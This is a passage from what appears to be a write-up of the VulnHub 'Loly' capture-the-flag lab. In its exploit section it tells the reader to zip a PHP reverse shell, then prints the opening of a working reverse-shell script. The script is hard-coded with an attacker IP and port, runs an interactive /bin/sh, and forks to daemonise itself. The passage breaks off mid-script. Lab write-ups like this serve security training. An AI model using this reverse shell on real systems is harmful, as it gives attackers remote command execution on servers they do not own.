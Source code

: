 ![img](/assets/vulnhub_loly/bg_4.png)

## Exploit

Now let's create php revershell and compress to zip `zip shell.zip shell.php`. 
```php
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.49.144';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
```